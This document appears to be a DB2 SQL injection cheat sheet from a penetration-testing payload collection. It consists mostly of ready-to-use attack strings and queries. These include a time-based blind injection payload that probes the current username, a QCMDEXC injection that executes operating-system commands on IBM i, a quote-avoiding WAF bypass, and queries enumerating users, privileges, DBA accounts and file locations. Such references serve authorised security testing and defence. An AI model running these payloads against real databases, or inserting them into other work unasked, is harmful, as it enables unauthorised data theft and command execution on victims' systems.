 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments.

## Summary

* [DB2 Comments](#db2-comments)
* [DB2 Default Databases](#db2-default-databases)
* [DB2 Enumeration](#db2-enumeration)
* [DB2 Methodology](#db2-methodology)
* [DB2 Error Based](#db2-error-based)
* [DB2 Blind Based](#db2-blind-based)
* [DB2 Time Based](#db2-time-based)
* [DB2 Command Execution](#db2-command-execution)
* [DB2 WAF Bypass](#db2-waf-bypass)
* [DB2 Accounts and Privileges](#db2-accounts-and-privileges)
* [References](#references)

## DB2 Comments

| Type                       | Description                       |
| -------------------------- | --------------------------------- |
| `--`                       | SQL comment                       |

## DB2 Default Databases

| Name        | Description                                                           |
| ----------- | --------------------------------------------------------------------- |
| SYSIBM      | Core system catalog tables storing metadata for database objects.     |
| SYSCAT      | User-friendly views for accessing metadata in the SYSIBM tables.      |
| SYSSTAT     | Statistics tables used by the DB2 optimizer for query optimization.   |
| SYSPUBLIC   | Metadata about objects available to all users (granted to PUBLIC).    |
| SYSIBMADM   | Administrative views for monitoring and managing the database system. |
| SYSTOOLs    | Tools, utilities, and auxiliary objects provided for database administration and troubleshooting. |

## DB2 Enumeration

| Description      | SQL Query |
| ---------------- | ----------------------------------------- |
| DBMS version     | `select versionnumber, version_timestamp from sysibm.sysversions;` |
| DBMS version     | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo` |
| DBMS version     | `select getvariable('sysibm.version') from sysibm.sysdummy1` |
| DBMS version     | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| DBMS version     | `select service_level,bld_level from sysibmadm.env_inst_info` |
| Current user     | `select user from sysibm.sysdummy1` |
| Current user     | `select session_user from sysibm.sysdummy1` |
| Current user     | `select system_user from sysibm.sysdummy1` |
| Current database | `select current server from sysibm.sysdummy1` |
| OS info          | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` |

## DB2 Methodology

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List databases   | `SELECT distinct(table_catalog) FROM sysibm.tables` |
| List databases   | `SELECT schemaname FROM syscat.schemata;` |
| List columns     | `SELECT name, tbname, coltype FROM sysibm.syscolumns` |
| List tables      | `SELECT table_name FROM sysibm.tables` |
| List tables      | `SELECT name FROM sysibm.systables` |
| List tables      | `SELECT tbname FROM sysibm.syscolumns WHERE name='username'` |

## DB2 Error Based

```sql
-- Returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from sysibm.tables

-- Same but without repeated elements
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)

-- Returns all in one xml-formatted string.
-- May need CAST(xml2clob(… AS varchar(500)) to display the result.
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables 
```

## DB2 Blind Based

| Description      | SQL Query |
| ---------------- | ------------------------------------------ |
| Substring        | `select substr('abc',2,1) FROM sysibm.sysdummy1` |
| ASCII value      | `select chr(65) from sysibm.sysdummy1`     |
| CHAR to ASCII    | `select ascii('A') from sysibm.sysdummy1`  |
| Select Nth Row   | `select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only` |
| Bitwise AND      | `select bitand(1,0) from sysibm.sysdummy1` |
| Bitwise AND NOT  | `select bitandnot(1,0) from sysibm.sysdummy1` |
| Bitwise OR       | `select bitor(1,0) from sysibm.sysdummy1`  |
| Bitwise XOR      | `select bitxor(1,0) from sysibm.sysdummy1` |
| Bitwise NOT      | `select bitnot(1,0) from sysibm.sysdummy1` |

## DB2 Time Based

Heavy queries, if user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response.

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

## DB2 Command Execution

> The QSYS2.QCMDEXC() procedure and scalar function can be used to execute IBM i CL commands.

Using the `QSYS2.QCMDEXC()` on IBM i (previously named AS-400), it is possibile to achieve command execution.

```sql
'||QCMDEXC('QSH CMD(''system dspusrprf PROFILE'')')
```

## DB2 WAF Bypass

### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```

## DB2 Accounts and Privileges

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List users | `select distinct(grantee) from sysibm.systabauth` |
| List users | `select distinct(definer) from syscat.schemata` |
| List users | `select distinct(authid) from sysibmadm.privileges` |
| List users | `select grantee from syscat.dbauth` |
| List privileges | `select * from syscat.tabauth` |
| List privileges | `select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies` |
| List DBA accounts | `select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'` |
| List DBA accounts | `select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = 'Y' or SYSADMAUTH = 'G'` |
| Location of DB files | `select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'` |

## References

* [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
* [QSYS2.QCMDEXC() - IBM Support - April 22, 2023](https://www.ibm.com/support/pages/qsys2qcmdexc)
